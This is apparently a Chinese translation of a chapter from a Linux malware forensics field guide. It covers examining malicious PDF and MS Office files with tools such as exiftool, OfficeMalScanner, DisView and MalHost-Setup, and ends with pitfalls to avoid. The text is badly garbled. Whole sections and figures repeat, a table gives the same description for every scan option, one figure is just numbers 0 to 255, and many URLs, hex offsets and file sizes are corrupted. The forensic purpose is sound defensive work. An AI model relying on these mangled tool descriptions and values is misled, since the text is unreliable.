

图 5.94—使用 PDF Dissector JavaScript 解释器执行 JavaScript

位于 JavaScript 面板中调用的嵌入 shellcode。右键点击可疑 shellcode 允许数字调查员将其复制到剪贴板、进行检查或保存为文件以进一步分析。
- 提取的 shellcode 可以在 PDF 分析工具中检查。

`Adobe Reader` 模拟器还会解析渲染结构，并根据常见漏洞和暴露（CVE）编号和描述报告 PDF 文件样本中的已知漏洞，如图 5.95 所示。



图 5.95—通过 Adobe Reader 模拟器检查可疑 PDF 文件

`PDF Dissector` 的 `Adobe Reader` 功能允许数字调查员在文档上下文中检查可疑文件。

`Adobe Reader` 可能使用 JavaScript 解释器无法使用的 API 函数。

## 在线资源

存在许多在线资源用于扫描可疑 PDF 和 MS Office 文件、扫描托管 PDF 文件的 URL 或沙箱环境中的可疑文档文件。许多 Web 门户还作为研究存档，提供数据库搜索功能以挖掘之前的提交结果。

`Jspack`—一个 JavaScript 解包和分析门户

`http://jspack.com/`

# LINUX 系统恶意软件取证领域指南

文件信息块 `FIB`，位于偏移量 `0.96`。`FIB` 包含有关文档的信息，并指定了组成文档的各种元素的文件指针以及文件长度的信息。[97]

* 摘要信息流：二进制文档的摘要信息存储在两个流中：摘要信息 `Summary Information` 和文档摘要信息 `DocumentSummaryInformation`。[98]
* 表流 `OTable` 或 `TTable`：表流包含来自 `FIB` 和文件其他部分引用的数据，并存储了描述文档结构的各种复数字符位置 `PLC` 和表格。除非文件经过加密，否则该流没有预定义的结构。
* 数据流 `Data stream`：一种可选流，没有预定义的结构，包含来自主流或文件其他部分引用的数据的数据。
* 对象流 `Object Streams`：对象流包含嵌入在 `.doc` 文件中的 `OLE 2.0` 对象的二进制数据。
* 自定义 XML 存储：在 Word 2007 中引入。

* Microsoft PowerPoint `.ppt`：二进制 PowerPoint 演示文件由组成：
    * 当前用户 `UserAtom`：它维护 `CurrentUserAtom` 记录，识别最后打开/修改目标演示文的用户名，以及最近编辑的位置。
    * PowerPoint 文档流：PowerPoint 文档维护有关演示文布局和内容的信息。
    * 图像 `Image`：（可选）包含嵌入在演示文中的图像 `JPG`、`PNG` 等的信息。
    * 摘要信息流：（可选）二进制 PowerPoint 演示文的摘要信息存储在两个流中：摘要信息和文档摘要信息。

* Microsoft Excel `.xlsx`：Microsoft Excel 工作簿以交换文件格式 `BIFF` 保存，该格式包含许多流（包括主工作簿流）和子流。此外，Excel 工作簿数据由记录组成，记录是一种用于存储每个工作簿功能信息的基础数据结构。记录由三个部分组成：`(1)` 记录类型，`(2)` 记录大小和 `(3)` 记录数据。

* **Open XML 格式**：MS Office 2007（以及更高版本的 MS Office）使用 Office XML 文件格式 `.doc`、`.pptx` 和 `.xlsx`，该格式为文字处理、演示文和工作簿文件提供了扩展的 XML 词汇。[101]

* 与需要特定工具来解析结构和内容的二进制文件不同，由于其容器结构，基于 XML 的文档可以通过简单的重命名目标样本文件扩展名 `.zip`、`.rar` 或 `.7z`，使用 `WinRAR`、 `[102]`、`Unzip File Roller`、 `[104]` 或 `7-Zip`、 `[105]` 进行分析。例如，将 `specimen.doc` 改为 `specimen.rar`。

* 基于 XML 的文档比其二进制前身脆弱，因为攻击者尚未显著利用 Office XML 格式文件作为攻击向量。此外，本节将重点检查二进制格式的 Office 文档。

# 第 5 章文件识别与分析

## MS Office 文档：漏洞与利用

* 攻击者通常通过构建利用 MS Office 套件应用程序漏洞的文档，将 MS Office 文档作为攻击向量。

* 这些攻击通常依赖于社会工程触发事件——例如鱼叉钓鱼电子邮件——导致受害者打开文档并执行恶意代码。

* 相反，攻击者可以不针对特定的漏洞，而是操纵 MS Office 文件以包含恶意的 Visual Basic for Applications `VBA`，通常称为 `VB` 宏，其执行可能会导致感染。

* 通过对可疑的 MS Office 文件进行分析，可以更深入地了解文件的性质和目的；如果确定该文件是恶意的，可以提取有关感染机制的信息以便进一步调查。

## MS Office 文档分析

可以采取以下步骤来检查可疑文件：

分检 `Triage`：Open XML 格式规范可以在 `http://msdn.microsoft.com/en-us/dd92631(office.12.aspx)` 找到。[96]
`http://msdn.microsoft.com/download/2/4A8/2486317-78F0-4C4A-B355-B7C5-B2C1D997DB/[MS-OSHARED].pdf`。[97]

PowerPoint 文档二进制文件格式结构可以在 `http://msdn.microsoft.com/en-us/cb311534(office.12.aspx)` 找到；`http://download.microsoft.com/download/2/4A8/2486317-78F0-4C4A-B355-B7C5-B2C1D997DB/[MS-PPT].pdf;98]`；以及 `http://download.microsoft.com/download/0/B/E8B5BDD7-E5E8-422-A-ABFD-4324ED73D986/PowerPoint97_BinaryFileFormat(pp%)Specification.pdf`。[99]

Microsoft Excel 二进制文件格式结构可以在 `http://msdn.microsoft.com/en-us/cb311534(office.12.aspx)` 找到；`http://download.microsoft.com/download/2/4A8/2486317-78F0-4C4A-B355-B7C5-B2C1D997DB/[MS-XLLS].pdf.[100]`

- 双击“确定为恶意解析注释” `Definitely Malicious Parsing Note`，包含漏洞的目标文件的原始内容将填充在十六进制视图中。

## 发现相关的元数据

- 有意义的元数据可以提供可疑文件的时间背景、作者以及原始文档创建详细信息。深入了解这些可能为攻击的来源和目的提供线索。
- 若要从文件样本中提取元数据，可以使用图 5.98 所示的 `exiftool`¹⁰⁹。通过检查元数据内容，可以快速阐明许多价值的上下文细节，例如 Windows 代码页 `Windows 标识符 936` 用于 `exiftool`¹¹⁰；许可证中声称的公司名称

```
lab\MalwareLab\home/malwarelab/Malware Repository/.exiftool Discussions.doc

ExifTool Version Number : 789

File Name : Discussions.doc

Directory : :

File Size : 114 KB

File Modification Date/Time : 2010:05:16 01:20:06-04:00

File Type : DOC

MIME Type : application/msword

Title : :

Subject : :

Author : :

Keywords : :

Template : Normal.dot

Last Saved By : :

Revision Number : 2

Software : Microsoft Word 11.0

Total Edit Time : 1.0 minutes

Create Date : 2007:09:18 04:34:00

Modify Date : 2007-09-18 04:35:00

Page Count : 1

Word Count : 0

Char Count : 0

Security : :

Code Page : 936

Company : VRHEIKER

Lines : 1

Paragraphs : 1

Char Count With Spaces : 9 (Oafc)

App Version : 0.0

Scale Crop : 0

Links Up To Date : 0

Shared Doc : 0

Hyperlinked Counts : 0

Title Of Parts : :

Heading Pages : □□, 1

Comp Obj Type Len : 20

Comp Obj User Type : Microsoft Word ☐
```

图 5.9—使用 `exiftool` 查询可疑 MS Word 文件

¹ ¹⁰⁹ 有更多关于 `exiftool` 的信息，请访问 `http://www.php.queensu.ca/` -- 可通过 Ubuntu' 包中的 `libymage-exiftool-perl` 获取。
¹¹⁰ 有更多关于 Windows 代码页 `936` 的信息，请访问 `http://msdn.microsoft.com/en-us/library/cc194886`。有关 Windows 代码页标识符的信息，请访问 `http://msdn.microsoft.com/en-us/library/windows/desktop/dd31775628v=vs%85%29.aspx`。

# 第 5 章 文件识别与分析

的 Word 注册到生成该文档的用户 `VRHEIKER`，以及文件的创建、访问和修改日期。

- 许多其他工具可以有效探测 MS 文档的元数据，包括本章之前提到的工具，如 `Hachoir-metadata`、`extract` 和 `metadata-extractor`。

- 此外，还有专为 Windows 系统开发的 MS 文档元数据提取工具。然而，请注意，其中这些工具在处理过程中会打开目标文件，可能会在 Windows 系统上执行嵌入的恶意代码。在检查期间实施之前，请务必了解你的元数据提取工具是如何工作的。

## 使用 OfficeScanner 进行深层分析

`OfficeScanner` 是由 Frank Baldwin 开发的恶意文档取证分析套件，它允许数字调查人员探测二进制格式 MS 文件的结构和内容以寻找恶意残留——从而对可疑文件进行更完整的分析。与本节提到的其他几个工具类似，`OfficeScanner` 套件中的大多数工具是 Windows 可移植执行文件 `.exe` 和 `Wine`，需要安装在你的 Linux 分析系统上才能运行。

- `OfficeScanner` 套件包括：
- `OfficeScanner`（恶意 MS Office 文件分析工具）；
- `DisView`（一个轻量级反汇编器）；
- `MalHost-Setup`（提取 shell 并将其嵌入到宿主机可执行文件中）；以及
- `ScanDir`（扫描恶意文档目录的 python 脚本）。

本节将更详细地检查每种工具。

- `OfficeScanner` 具有五种不同的扫描选项，可可从可疑文件中提取特定数据：¹¹²

> ¹¹¹ 有更多关于 `OfficeScanner` 的信息，请访问 `http://www.reconstructor.org/code.html`。
> ¹¹² Baldwin, F. (2009) Analyzing MS Malware with OfficeScanner, `http://www.reconstructor.org/papers/Analyzing%20MSOffice%20malware%20with%20OfficeScanner.zip`.
> Baldwin, F. (2009) New Advances in MS Malware Analysis, `http://www.reconstructor.org/papers/New%20advances%20inMs%20Office%20malware%20analysis.pdf`.

# LINUX 系统恶意软件取证指南

| 扫描选项 | 目的 |
|---|---|
| info | 解析并显示文件中的 OLE 结构，并保存定位的 VB 宏进行解码。 |
| scan | 使用以下方法扫描目标文件中的通用 shellcode 模式： |
| GetEIP | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| FindKernel32 | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| API hashing | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Indirect | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Suspicious | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Decryption | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Embedded OLE | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| PE signature | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| brute | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| debug | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| inflate | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| inflate | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |

*(注：原文表格中部分内容存在重复或对应偏移，翻译已按原文结构保留)*

- 双击“确定为恶意解析注释” `Definitely Malicious Parsing Note`，包含漏洞的目标文件的原始内容将填充在十六进制视图中。

## 发现相关的元数据

- 有意义的元数据可以提供可疑文件的时间背景、作者以及原始文档创建详细信息。深入了解这些可能为攻击的来源和目的提供线索。
- 若要从文件样本中提取元数据，可以使用图 5.98 所示的 `exiftool`¹⁰⁹。通过检查元数据内容，可以快速阐明许多价值的上下文细节，例如 Windows 代码页 `Windows 标识符 936` 用于 `exiftool`¹¹⁰；许可证中声称的公司名称

```
lab\MalwareLab\home/malwarelab/Malware Repository/.exiftool Discussions.doc
```


ExifTool Version Number : 789

File Name : Discussions.doc

Directory : :

File Size : 114 KB

File Modification Date/Time : 2010:05:16 01:20:06-04:00

File Type : DOC

MIME Type : application/msword

Title : :

Subject : :

Author : :

Keywords : :

Template : Normal.dot

Last Saved By : :

Revision Number : 2

Software : Microsoft Word 11.0

Total Edit Time : 1.0 minutes

Create Date : 2007:09:18 04:34:00

Modify Date : 2007-09-18 04:35:00

Page Count : 1

Word Count : 0

Char Count : 0

Security : :

Code Page : 936

Company : VRHEIKER

Lines : 1

Paragraphs : 1

Char Count With Spaces : 9 (Oafc)

App Version : 0.0

Scale Crop : 0

Links Up To Date : 0

Shared Doc : 0

Hyperlinked Counts : 0

Title Of Parts : :

Heading Pages : □□, 1

Comp Obj Type Len : 20

Comp Obj User Type : Microsoft Word ☐

```
图 5.9—使用 exiftool 查询可疑 MS Word 文件
```

¹ ¹⁰⁹ 有更多关于 `exiftool` 的信息，请访问 `http://www.php.queensu.ca/` -- 可通过 Ubuntu' 包中的 `libymage-exiftool-perl` 获取。
¹¹⁰ 有更多关于 Windows 代码页 `936` 的信息，请访问 `http://msdn.microsoft.com/en-us/library/cc194886`。有关 Windows 代码页标识符的信息，请访问 `http://msdn.microsoft.com/en-us/library/windows/desktop/dd31775628v=vs%85%29.aspx`。

# 第 5 章 文件识别与分析

的 Word 注册到生成该文档的用户（`VRHEIKER`），以及文件的创建、访问和修改日期。

- 许多其他工具可以有效探测 MS 文档的元数据，包括本章之前提到的工具，如 `Hachoir-metadata`、`extract` 和 `metadata-extractor`。
- 此外，还有专为 Windows 系统开发的 MS 文档元数据提取工具。然而，请注意，其中这些工具在处理过程中会打开目标文件，可能会在 Windows 系统上执行嵌入的恶意代码。在检查期间实施之前，请务必了解你的元数据提取工具是如何工作的。

## 使用 OfficeScanner 进行深层分析

`OfficeScanner` 是由 Frank Baldwin 开发的恶意文档取证分析套件，它允许数字调查人员探测二进制格式 MS 文件的结构和内容以寻找恶意残留——从而对可疑文件进行更完整的分析。与本节提到的其他几个工具类似，`OfficeScanner` 套件中的大多数工具是 Windows 可移植执行文件（`.exe`）和 Wine，需要安装在你的 Linux 分析系统上才能运行。

- `OfficeScanner` 套件包括：
  - `OfficeScanner`（恶意 MS Office 文件分析工具）；
  - `DisView`（一个轻量级反汇编器）；
  - `MalHost-Setup`（提取 shell 并将其嵌入到宿主机可执行文件中）；以及
  - `ScanDir`（扫描恶意文档目录的 python 脚本）。

本节将更详细地检查每种工具。

- `OfficeScanner` 具有五种不同的扫描选项，可可从可疑文件中提取特定数据：¹¹²

> ¹¹¹ 有更多关于 `OfficeScanner` 的信息，请访问 `http://www.reconstructor.org/code.html`。
> ¹¹² Baldwin, F. (2009) Analyzing MS Malware with OfficeScanner, `http://www.reconstructor.org/papers/Analyzing%20MSOffice%20malware%20with%20OfficeScanner.zip`.
> Baldwin, F. (2009) New Advances in MS Malware Analysis, `http://www.reconstructor.org/papers/New%20advances%20inMs%20Office%20malware%20analysis.pdf`.

# LINUX 系统恶意软件取证指南

| 扫描选项 | 目的 |
|---|---|
| info | 解析并显示文件中的 OLE 结构，并保存定位的 VB 宏进行解码。 |
| scan | 使用以下方法扫描目标文件中的通用 shellcode 模式： |
| GetEIP | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| FindKernel32 | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| API hashing | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Indirect | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Suspicious | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Decryption | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| Embedded OLE | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| PE signature | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| brute | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| debug | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| inflate | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |
| inflate | （四种方法）扫描用于定位 EIP（指令指针寄存器，或程序计数器）的指令实例，表明存在嵌入的 shellcode。 |

*(注：原文表格中部分内容存在重复或对应偏移，翻译已按原文结构保留)*

## LINUX 系统恶意软件取证指南

```
lab@Malwarelab:~//malwarelab/Malware Repository$//OfficeMalScanner.exe .doc scan
```

| OfficeMalScanner v0.53 |
| Frank Baldwin / www.reconstructor.org | |
|--------------------------------------|
|* 已选择 *SCAN 模式 |
|* 正在打开 files.doc |
| 文件大小为 117086 (0x1c95) Bytes |
| 检测到 Ms Office OLE 复合格式文档 |
|* 正在扫描... |
|* 在偏移处 0x0617 找到 FS[0h] 签名 |
|* 在偏移处 0x64f0 找到 FS[0h] 签名 |
|* 在偏移处 0x07a6 找到 AF-hashing 签名 |
|* 在偏移处 0x7046 找到 AF-Name 签名 |
| 在偏移处 0x0730 找到 Name-Win 字符串 |
| 在偏移处 0x07d4 找到 Name-Allocation 字符串 |
| 在偏移处 0x6f2a 找到 Name-CloseHandle 字符串 |
| 在偏移处 0x14f5e 找到嵌入 OLE 签名 |

将内存转储到磁盘，文件名：Discussions__EMBEDDED_OLE_OFFSET=0x14f5e.bin

分析完成！
Discussion.doc 似乎是恶意的！恶意索引 = 39

图 5.100—使用 OfficeMalScanner 的 scan 和 info 命令尝试...

```
lab@Malwarelab:~//malwarelab/Malware Repository$//OfficeMalScanner.exe .doc scan
```

| OfficeMalScanner v0.53 |
| Frank Baldwin / www.reconstructor.org | |
|--------------------------------------|
|* 已选择 *SCAN 模式 |
|* 正在打开 files.doc |
|* 文件大小为 117086 (0x1c95) Bytes |
| 检测到 Ms Office OLE 复合格式文档 |
|* 正在扫描... |
|* 在偏移处 0x0617 找到 FS[0h] 签名 |
|* 在偏移处 0x64f0 找到 FS[0h] 签名 |
|* 在偏移处 0x07a6 找到 AF-hashing 签名 |
|* 在偏移处 0x7046 找到 AF-Name 签名 |
|* 在偏移处 0x0730 找到 Name-Winsec 字符串 |
|* 在偏移处 0x07d4 找到 Name-Allocation 字符串 |
|* 在偏移处 0x6f2a 找到 Name-CloseHandle 字符串 |
|* 在偏移处 0x14f5e 找到嵌入 OLE 签名 |

将内存转储到磁盘，文件名：Discussions__EMBEDDED_OLE_OFFSET=0x14f5e.bin

- * 使用 `scan` 和 `info` 命令扫描新文件，以尝试收集有关该文件的进一步信息。
- 很多时候，嵌入在恶意 MS Office 文件中的 shellcode、OLE 数据和 PE 文件是加密的。为了提取这些产物并击败这种技术，我们使用 `OfficeMalScanner` 的 `brute` 命令用常用的解密算法扫描特定标本。如果检测到文件，它们将自动提取并保存到磁盘，如图 5.101 所示。

正在对加密的 PE 和嵌入 OLE 文件进行暴力破解...
在偏移处 0x0c04 找到 XOR 加密的 PE 签名
将内存转储到磁盘，文件名：Discussions__PEFILE_OFFSET=0x9c04_KOR_KEY=0xce.bin
暴力破解使用的密钥：Oaff
解密密钥：Oaff
分析完成！
Discussion.doc 似乎是恶意的！恶意索引 = 59

图 5.101—OfficeMalScanner scan 暴力模式检测并提取嵌入的 PE 文件

## 第 5 章：文件识别与特征分析

- 通过第 6 章中讨论的文件分析和额外的恶意软件取证技术检查提取出的可执行文件，以进一步了解程序的性质、目的和功能。

## 检查提取的代码

- 使用 `scan brute` 调试命令组合来显示发现并解密的 PE 文件的文本十六进制视图，如图 5.102 所示。

```
正在对加密的 PE 和要求的 OLE 文件进行暴力破解...

在偏移处 0x9c04 找到 XOR 加密的 MS/PE 签名 - 加密密钥: 0xce 将内存转储到磁盘: Discussions __PEFILE_OFFSET=0x9c04_XORKEY=0xce.bin
```

| PE 文件（解密后） | 256 字节 | MZ... |
| :--- | :--- | :--- |
| 4d 5a 90 00 01 00 00 00 00 00 00 00 ff ff 00 | ..|........ |
| bb 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 | ..|...l..rth |
| 00 00 00 00 00 00 00 00 00 00 e00 00 00 00 00 | ..|is program casino |
| 00 00 00 00 00 00 00 00 00 00 e00 00 00 00 00 | ..|t be run in DOS |
| 00 1f 8a 0e 00 b4 09 23 21 18 4c 03 21 54 68 | ..|mode....3_ |
| 69 73 74 72 75 63 72 65 6c 6c 6cc | 7| 24 60 65 75 72 75 6e 20 20 69 6e 44 44 53 00 | |
| 6d 6f 64 65 22 0e 0d 0a 24 00 00 00 00 00 00 00 | |

> 图 5.102—使用 OfficeMalScanner 检查嵌入的 PE 文件

- `scan debug` 可更详细地检查发现的（未加密）shellcode、PE 和 OLE 文件。
- 识别出的 shellcode 产物可以在文本反汇编视图中进行好奇的反汇编。
- 识别出的 PE 和 OLE 文件以文本进制视图显示，调试模式有助于识别怀疑 MS 文件中嵌入 shellcode 的偏移量，并进一步了解代码的功能，如图 5.103 所示。

## 使用 DisView 和 MalHost 定位并提取 shellcode

- 如果需要对 shellcode 进行更深层次探测，可以使用 `DisView` (`DisView.exe`) 工具——这是 `OfficeMalScanner` 套件包含的轻量级反汇编器——来进一步反汇编代码。
- 要对目标文件调用 `DisView` 命令，之前已通过 `scan` 命令识别了相关的偏移量 `0x6cf`。

## LINUX 系统恶意软件取证指南

```
lab@Malwarelab:~//malwarelab/Malware Repository$//OfficeMalScanner.exe .doc scan
```

```
| ------------------------------------------------------ |

* 已选择 *SCAN 模式 |

* 正在打开 files.doc |

* 文件大小为 117086 (0x1c95) Bytes |

* 检测到 Ms Office OLE 复合格式文档 |

* 正在扫描... |

* 在偏移处 0x0617 找到 FS[0h] 签名 |

* 在偏移处 0x64f0 找到 FS[0h] 签名 |

* 在偏移处 0x07a6 找到 AF-hashing 签名 |

* 在偏移处 0x7046 找到 AF-Name 签名 |

| ------------------------------------------------------ |
```

## 第 5 章：文件识别与特征分析

```
| ------------------------------------------------------ |

| API 偏移 | 256 |

| ------------------------------------------------------ |

| 0 |

| 1 |

| 2 |

| 3 |

| 4 |

| 5 |

| 6 |

| 7 |

| 8 |

| 9 |

| 10 |

| 11 |

| 12 |

| 13 |

| 14 |

| 15 |

| 16 |

| 17 |

| 18 |

| 19 |

| 20 |

| 21 |

| 22 |

| 23 |

| 24 |

| 25 |

| 26 |

| 27 |

| 28 |

| 29 |

| 30 |

| 31 |

| 32 |

| 33 |

| 34 |

| 35 |

| 36 |

| 37 |

| 38 |

| 39 |

| 40 |

| 41 |

| 42 |

| 43 |

| 44 |

| 45 |

| 46 |

| 47 |

| 48 |

| 49 |

| 50 |

| 51 |

| 52 |

| 53 |

| 54 |

| 55 |

| 56 |

| 57 |

| 58 |

| 59 |

| 60 |

| 61 |

| 62 |

| 63 |

| 64 |

| 65 |

| 66 |

| 67 |

| 68 |

| 69 |

| 70 |

| 71 |

| 72 |

| 73 |

| 74 |

| 75 |

| 76 |

| 77 |

| 78 |

| 79 |

| 80 |

| 81 |

| 82 |

| 83 |

| 84 |

| 85 |

| 86 |

| 87 |

| 88 |

| 89 |

| 90 |

| 91 |

| 92 |

| 93 |

| 94 |

| 95 |

| 96 |

| 97 |

| 98 |

| 99 |

| 100 |

| 101 |

| 102 |

| 103 |

| 104 |

| 105 |

| 106 |

| 107 |

| 108 |

| 109 |

| 110 |

| 111 |

| 112 |

| 113 |

| 114 |

| 115 |

| 116 |

| 117 |

| 118 |

| 119 |

| 120 |

| 121 |

| 122 |
```


| 123 |
| 124 |
| 125 |
| 126 |
| 127 |
| 128 |
| 129 |
| 130 |
| 131 |
| 132 |
| 133 |
| 134 |
| 135 |
| 136 |
| 137 |
| 138 |
| 139 |
| 140 |
| 141 |
| 142 |
| 143 |
| 144 |
| 145 |
| 146 |
| 147 |
| 148 |
| 149 |
| 150 |
| 151 |
| 152 |
| 153 |
| 154 |
| 155 |
| 156 |
| 157 |
| 158 |
| 159 |
| 160 |
| 161 |
| 162 |
| 163 |
| 164 |
| 165 |
| 166 |
| 167 |
| 168 |
| 169 |
| 170 |
| 171 |
| 172 |
| 173 |
| 174 |
| 175 |
| 176 |
| 177 |
| 178 |
| 179 |
| 180 |
| 181 |
| 182 |
| 183 |
| 184 |
| 185 |
| 186 |
| 187 |
| 188 |
| 189 |
| 190 |
| 191 |
| 192 |
| 193 |
| 194 |
| 195 |
| 196 |
| 197 |
| 198 |
| 199 |
| 200 |
| 201 |
| 202 |
| 203 |
| 204 |
| 205 |
| 206 |
| 207 |
| 208 |
| 209 |
| 210 |
| 211 |
| 212 |
| 213 |
| 214 |
| 215 |
| 216 |
| 217 |
| 218 |
| 219 |
| 220 |
| 221 |
| 222 |
| 223 |
| 224 |
| 225 |
| 226 |
| 227 |
| 228 |
| 229 |
| 230 |
| 231 |
| 232 |
| 233 |
| 234 |
| 235 |
| 236 |
| 237 |
| 238 |
| 239 |
| 240 |
| 241 |
| 242 |
| 243 |
| 244 |
| 245 |
| 246 |
| 247 |
| 248 |
| 249 |
| 250 |
| 251 |
| 252 |
| 253 |
| 254 |
| 255 |
| ------------------------------------------------------ |

# Linux 系统恶意软件取证现场指南

- 要使用 `MalHost-Setup`，请针对目标文件调用命令，提供新生成的可执行文件的名称，并如图 5.105 所示识别相关的内存偏移。
- 生成可执行文件后，可以使用 `file` 命令进行验证（图 5.106），并使用 Windows 恶意软件取证静态动态分析工具及技术进行进一步检查。

```
lab8@MalwareLab:~/malwarelab/Malware Repository$/MalHost-Setup.exe Discussions.doc
out.exe 0xc4fc
------------------------------------------------------+
| MalHost-Setup v0.12 |
| Frank Boldwin | www.reconstructor.org |
------------------------------------------------------+
* Opening file Discussions.doc
* Parsing is 117906 (0xc1c9e) Bytes
* Creating MalHost file now...
* Writing 172382 bytes
* Done!
```

> 图 5.105—MalHost-Setup

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ file out exe
out.exe: PE32 executable for MS Windows (console) Intel 80386 32-bit
```

> 图 5.106—验证由 MalHost-Setup 生成的新 PE 文件

## 结论

- 在 Linux 环境下对可疑文件进行初步静态分析可以产生大量价值信息，这些信息将决定未来对该文件进行动态及更完整静态分析的方向。
- 通过逻辑化的、步进式的文件识别和剖析过程，并使用各种工具和方法，可以汇总出一个有意义的文件画像。进行文件剖析的工具有很多，其中许多在本章中已演示。
- 无论使用什么工具以及正在检查的特定嫌疑对象是什么，都需要一种文件剖析方法论来确保数据以尽可能一致且可重复的方式获取。出于取证目的，也有必要对可疑文件采取的步骤进行详细的记录。请参考本章末尾的“现场笔记”以获取文档指南。
- 本章的方法论为目标文件的取证识别和剖析提供了坚实的基础。该方法并非旨在作为清单，可能需要根据某些情况进行调整，但它确实增加了获取大量相关数据以构建文件画像的概率。此外，这种方法论和支持文档将加强恶意软件取证作为证据来源性，使客观观察者能够评估文件剖析过程及获取数据的可靠性和准确性。

## 应避免的陷阱

### 将敏感文件提交到在线杀病毒扫描服务或分析沙箱

- 不要将处于敏感调查核心的可疑文件（即披露调查情况可能对案件造成不可弥回的损害的情况）提交到在线分析结果中，或作为杀病毒扫描服务或沙箱使用，以防惊动攻击者。
- 通过将文件提交给第三方网站，你将不再控制该文件或与该文件相关的数据。精明的攻击者通常会进行广泛的开源研究和搜索查询，以确定他们的恶意软件是否已被检测。
- 提交到在线分析服务的文件结果是公开的且易于发现的——许多门户都有搜索功能。因此，由于提交了可疑文件，攻击者可能会发现其恶意软件非法行为已被发现，导致证据被毁，并可能损害你的调查。

### 执行不完整的文件剖析

- 调查行动不应基于不完整的文件画像。
- 充分检查可疑文件，以便对该文件是什么、应如何分类或分析，并反过来对如何进行更大的调查做出明智且客观的决策。
- 在此过程中记录详细笔记，不仅针对可疑文件，还针对每一个调查步骤。请查阅本章附录中的“现场笔记”以获取额外指导和结构化的笔记格式。

### 在没有进一步上下文或深层检查的情况下依赖文件图标和扩展名

- 不应假定可疑文件的图标或扩展名是准确的。
- 在进行数字调查时，永远不要假设文件扩展名是准确的表示。文件伪装是一种通过在与真实文件类型相似的位置更改和隐藏文件扩展名来混淆文件真实性质的技术，这是黑客和僵尸网络控制者用来规避恶意分发检测的常用技巧。
- 同样，与文件相关的内容可以被攻击者轻易修改，使其看起来像是符合上下文或无害的文件。

### 仅依赖杀病毒特征或对“相似”文件样本进行第三方分析

尽管杀病毒特征可以为已识别的恶意代码的性质提供见解，但不应依赖它们来揭示可疑程序的用途和功能。相反，可疑文件未被杀病毒程序识别并不意味着它是无害的。

对“相似”文件样本的第三方分析可以提供有用的指导；但在所有情况下都不应被视为定论。

- 杀病毒特征通常根据恶意代码中识别出的特定数据内容或模式生成。特征与启发式不同——启发式是可识别的恶意行为或属性，不针对特定样本（通常用于检测尚未正式通过特征识别的零日威胁）。
- 对于特定样本的杀病毒特征，许多如“木马（Trojan）”、“释放器（Dropper）”和“后门（Backdoor）”等命名可以是良好的起点，但不应被视为决定性的。相反，如果文件没有关联杀病毒特征，可能仅仅意味着攻击者成功混淆了它以阻止检测。
- 杀病毒特征通常根据恶意代码中识别出的特定数据内容或模式生成。
- 由可靠来源对“相似”文件样本进行第三方分析可以是非常有用的资源，甚至可以提供对发现内容的预测。虽然这些关联信息在调查中应被考虑，但它们不应替代独立分析。

